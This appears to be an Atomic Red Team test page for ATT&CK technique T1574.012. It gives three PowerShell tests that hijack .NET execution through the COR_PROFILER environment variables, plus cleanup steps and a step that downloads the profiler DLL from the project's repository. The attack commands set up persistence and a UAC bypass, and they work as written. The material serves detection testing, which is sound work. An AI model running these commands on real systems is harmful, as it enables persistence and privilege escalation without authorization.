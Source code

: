 # T1574.012 - Hijack Execution Flow: COR_PROFILER
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1574/012)
<blockquote>

Adversaries may leverage the COR_PROFILER environment variable to hijack the execution flow of programs that load the .NET CLR. The COR_PROFILER is a .NET Framework feature which allows developers to specify an unmanaged (or external of .NET) profiling DLL to be loaded into each .NET process that loads the Common Language Runtime (CLR). These profilers are designed to monitor, troubleshoot, and debug managed code executed by the .NET CLR.(Citation: Microsoft Profiling Mar 2017)(Citation: Microsoft COR_PROFILER Feb 2013)

The COR_PROFILER environment variable can be set at various scopes (system, user, or process) resulting in different levels of influence. System and user-wide environment variable scopes are specified in the Registry, where a [Component Object Model](https://attack.mitre.org/techniques/T1559/001) (COM) object can be registered as a profiler DLL. A process scope COR_PROFILER can also be created in-memory without modifying the Registry. Starting with .NET Framework 4, the profiling DLL does not need to be registered as long as the location of the DLL is specified in the COR_PROFILER_PATH environment variable.(Citation: Microsoft COR_PROFILER Feb 2013)

Adversaries may abuse COR_PROFILER to establish persistence that executes a malicious DLL in the context of all .NET processes every time the CLR is invoked. The COR_PROFILER can also be used to elevate privileges (ex: [Bypass User Account Control](https://attack.mitre.org/techniques/T1548/002)) if the victim .NET process executes at a higher permission level, as well as to hook and [Impair Defenses](https://attack.mitre.org/techniques/T1562) provided by .NET processes.(Citation: RedCanary Mockingbird May 2020)(Citation: Red Canary COR_PROFILER May 2020)(Citation: Almond COR_PROFILER Apr 2019)(Citation: GitHub OmerYa Invisi-Shell)(Citation: subTee .NET Profilers May 2017)

</blockquote>

## Atomic Tests

- [Atomic Test #1 - User scope COR_PROFILER](#atomic-test-1---user-scope-cor_profiler)

- [Atomic Test #2 - System Scope COR_PROFILER](#atomic-test-2---system-scope-cor_profiler)

- [Atomic Test #3 - Registry-free process scope COR_PROFILER](#atomic-test-3---registry-free-process-scope-cor_profiler)


<br/>

## Atomic Test #1 - User scope COR_PROFILER
Creates user scope environment variables and CLSID COM object to enable a .NET profiler (COR_PROFILER).
The unmanaged profiler DLL (`T1574.012x64.dll`) executes when the CLR is loaded by the Event Viewer process.
Additionally, the profiling DLL will inherit the integrity level of Event Viewer bypassing UAC and executing `notepad.exe` with high integrity.
If the account used is not a local administrator the profiler DLL will still execute each time the CLR is loaded by a process, however,
the notepad process will not execute with high integrity.

Reference: https://redcanary.com/blog/cor_profiler-for-persistence/

**Supported Platforms:** Windows


**auto_generated_guid:** 9d5f89dc-c3a5-4f8a-a4fc-a6ed02e7cb5a





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| file_name | unmanaged profiler DLL | path | PathToAtomicsFolder&#92;T1574.012&#92;bin&#92;T1574.012x64.dll|
| clsid_guid | custom clsid guid | string | {09108e71-974c-4010-89cb-acf471ae9e2c}|


#### Attack Commands: Run with `powershell`! 


```powershell
Write-Host "Creating registry keys in HKCU:Software\Classes\CLSID\#{clsid_guid}" -ForegroundColor Cyan
New-Item -Path "HKCU:\Software\Classes\CLSID\#{clsid_guid}\InprocServer32" -Value "#{file_name}" -Force | Out-Null
New-ItemProperty -Path HKCU:\Environment -Name "COR_ENABLE_PROFILING" -PropertyType String -Value "1" -Force | Out-Null
New-ItemProperty -Path HKCU:\Environment -Name "COR_PROFILER" -PropertyType String -Value "#{clsid_guid}" -Force | Out-Null
New-ItemProperty -Path HKCU:\Environment -Name "COR_PROFILER_PATH" -PropertyType String -Value "#{file_name}" -Force | Out-Null
Write-Host "executing eventvwr.msc" -ForegroundColor Cyan
START MMC.EXE EVENTVWR.MSC
```

#### Cleanup Commands:
```powershell
Remove-Item -Path "HKCU:\Software\Classes\CLSID\#{clsid_guid}" -Recurse -Force -ErrorAction Ignore 
Remove-ItemProperty -Path HKCU:\Environment -Name "COR_ENABLE_PROFILING" -Force -ErrorAction Ignore | Out-Null
Remove-ItemProperty -Path HKCU:\Environment -Name "COR_PROFILER" -Force -ErrorAction Ignore | Out-Null
Remove-ItemProperty -Path HKCU:\Environment -Name "COR_PROFILER_PATH" -Force -ErrorAction Ignore | Out-Null
```



#### Dependencies:  Run with `powershell`!
##### Description: "#{file_name}" must be present
##### Check Prereq Commands:
```powershell
if (Test-Path "#{file_name}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{file_name}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1574.012/bin/T1574.012x64.dll" -OutFile "#{file_name}"
```




<br/>
<br/>

## Atomic Test #2 - System Scope COR_PROFILER
Creates system scope environment variables to enable a .NET profiler (COR_PROFILER). System scope environment variables require a restart to take effect.
The unmanaged profiler DLL (T1574.012x64.dll`) executes when the CLR is loaded by any process. Additionally, the profiling DLL will inherit the integrity
level of Event Viewer bypassing UAC and executing `notepad.exe` with high integrity. If the account used is not a local administrator the profiler DLL will
still execute each time the CLR is loaded by a process, however, the notepad process will not execute with high integrity.

Reference: https://redcanary.com/blog/cor_profiler-for-persistence/

**Supported Platforms:** Windows


**auto_generated_guid:** f373b482-48c8-4ce4-85ed-d40c8b3f7310





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| file_name | unmanaged profiler DLL | path | PathToAtomicsFolder&#92;T1574.012&#92;bin&#92;T1574.012x64.dll|
| clsid_guid | custom clsid guid | string | {09108e71-974c-4010-89cb-acf471ae9e2c}|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Write-Host "Creating system environment variables" -ForegroundColor Cyan
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_ENABLE_PROFILING" -PropertyType String -Value "1" -Force | Out-Null
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_PROFILER" -PropertyType String -Value "#{clsid_guid}" -Force | Out-Null
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_PROFILER_PATH" -PropertyType String -Value "#{file_name}" -Force | Out-Null
```

#### Cleanup Commands:
```powershell
Remove-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_ENABLE_PROFILING" -Force -ErrorAction Ignore | Out-Null
Remove-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_PROFILER" -Force -ErrorAction Ignore | Out-Null
Remove-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_PROFILER_PATH" -Force -ErrorAction Ignore | Out-Null
```



#### Dependencies:  Run with `powershell`!
##### Description: "#{file_name}" must be present
##### Check Prereq Commands:
```powershell
if (Test-Path "#{file_name}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{file_name}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1574.012/bin/T1574.012x64.dll" -OutFile "#{file_name}"
```




<br/>
<br/>

## Atomic Test #3 - Registry-free process scope COR_PROFILER
Creates process scope environment variables to enable a .NET profiler (COR_PROFILER) without making changes to the registry. The unmanaged profiler DLL (`T1574.012x64.dll`) executes when the CLR is loaded by PowerShell.

Reference: https://redcanary.com/blog/cor_profiler-for-persistence/

**Supported Platforms:** Windows


**auto_generated_guid:** 79d57242-bbef-41db-b301-9d01d9f6e817





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| file_name | unamanged profiler DLL | path | PathToAtomicsFolder&#92;T1574.012&#92;bin&#92;T1574.012x64.dll|
| clsid_guid | custom clsid guid | string | {09108e71-974c-4010-89cb-acf471ae9e2c}|


#### Attack Commands: Run with `powershell`! 


```powershell
$env:COR_ENABLE_PROFILING = 1
$env:COR_PROFILER = '#{clsid_guid}'
$env:COR_PROFILER_PATH = '"#{file_name}"'
POWERSHELL -c 'Start-Sleep 1'
```

#### Cleanup Commands:
```powershell
$env:COR_ENABLE_PROFILING = 0
$env:COR_PROFILER = ''
$env:COR_PROFILER_PATH = ''
```



#### Dependencies:  Run with `powershell`!
##### Description: "#{file_name}" must be present
##### Check Prereq Commands:
```powershell
if (Test-Path "#{file_name}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{file_name}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1574.012/bin/T1574.012x64.dll" -OutFile "#{file_name}"
```




<br/>
